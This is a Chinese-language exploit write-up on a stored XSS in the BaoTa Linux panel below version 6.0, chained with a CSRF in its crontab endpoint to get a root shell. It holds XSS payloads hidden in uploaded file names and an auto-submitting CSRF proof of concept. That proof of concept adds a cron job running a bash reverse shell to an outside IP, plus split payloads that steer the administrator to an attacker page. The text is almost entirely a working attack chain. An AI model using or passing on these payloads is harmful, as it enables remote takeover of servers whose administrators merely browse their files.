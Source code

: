 ## 宝塔linux面板 <6.0 存储形xss 0day漏洞getshell

## 漏洞描述

宝塔面板是什么就不说了，小于6.0的版本存在存储性xss，该版本比较古老了，如果遇到了还是可以一用。

## 漏洞影响

> 宝塔Linux面板<6.0

## 漏洞复现

假设我们已经通过网站漏洞或者ftp弱口令等,可以在web目录下进行文件上传

在web目录下上传一个文件名为 `<img src=x onerror="alert(1)">`的文件

![1](/resource/宝塔存储xss/1.png)

在宝塔后台浏览文件,触发payload

![2](/resource/宝塔存储xss/2.png)

但是由于宝塔的session加了httponly,所以我们是无法获取到宝塔的cookie的,但是我们可以配合计划任务的一个csrf的漏洞来达到权限提升的效果

POC

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://1.1.1.1:8888/crontab?action=AddCrontab" method="POST">
      <input type="hidden" name="name" value="test" />
      <input type="hidden" name="type" value="minute-n" />
      <input type="hidden" name="where1" value="5" />
      <input type="hidden" name="hour" value="" />
      <input type="hidden" name="minute" value="" />
      <input type="hidden" name="week" value="" />
      <input type="hidden" name="sType" value="toShell" />
      <input type="hidden" name="sBody" value="bash -i >& /dev/tcp/1.1.1.1/1998 0>&1" />
      <input type="hidden" name="sName" value="" />
      <input type="hidden" name="backupTo" value="localhost" />
      <input type="hidden" name="urladdress" value="" />
      <input type="hidden" name="save" value="" />
      <input type="hidden" name="sBody" value="bash -i >& /dev/tcp/1.1.1.1/1998 0>&1" />
      <input type="hidden" name="urladdress" value="" />
      <input type="submit" id="a" value="Submit request" />
    </form>
  </body>
  <script>
    document.getElementById('a').click()
</script>
</html>
```

修改poc中的ip地址,保存到网页上传到test.com中,当宝塔管理员访问这个页面以后,会自动跳转到

![3](/resource/宝塔存储xss/3.png)

后台会自动添加反弹shell的计划任务

![4](/resource/宝塔存储xss/4.png)

![5](/resource/宝塔存储xss/5.png)

现在准备就绪,只要让管理员打开这个网页就可以了

回到上传文件的地方,因为有触发点有字符数限制,所以用多个语句构造,因为执行顺序的关系,可能需要刷新一下文件管理即可触发

![6](/resource/宝塔存储xss/6.png)

新建三个文件,文件名分别为

```
a<img src=x onerror="a=String.fromCharCode(47)">
b<img src=x onerror="b='.com'">
c<img src=x onerror="window.open(a+a+'test'+b)">
```

payload触发以后会自动打开test.com网页

![7](/resource/宝塔存储xss/7.png)

将上一步CSRF的payload部署到test.com,管理员浏览文件的时候即可触发,触发后五分钟会反弹shell

![8](/resource/宝塔存储xss/8.png)

root权限~